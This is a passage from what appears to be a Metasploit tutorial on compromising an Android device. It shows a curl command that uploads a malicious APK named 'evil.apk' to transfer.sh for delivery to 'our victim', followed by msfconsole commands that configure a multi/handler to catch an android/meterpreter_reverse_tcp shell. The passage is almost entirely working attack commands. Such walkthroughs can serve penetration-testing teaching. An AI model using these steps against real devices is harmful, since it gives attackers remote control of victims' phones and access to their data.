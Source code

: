 And then we make our payload available to our victim, thanks to transfer.sh ... :]

```bash
curl --upload-file /tmp/msf/evil.apk https://transfer.sh/evil.apk
```

<img class="img_big" src="step_4_1_gen_payload.png" alt="step_4_1_gen_payload">



### Step 4.2 : Start the multi/handler

At any time in msfconsole, you can use the following commands to know what you’re dealing with : 

```bash
help
info
options
show + tab # exhaustive list of available assets
```

Let’s grab our container ip and configure the multi/handler that will receive our reverse meterpreter. 

```bash
./msfconsole -q
use exploit/multi/handler
set payload android/meterpreter_reverse_tcp
ip a | grep eth # Get the container local ip for LHOST
set LHOST 172.17.0.2
set LPORT 8888
exploit
```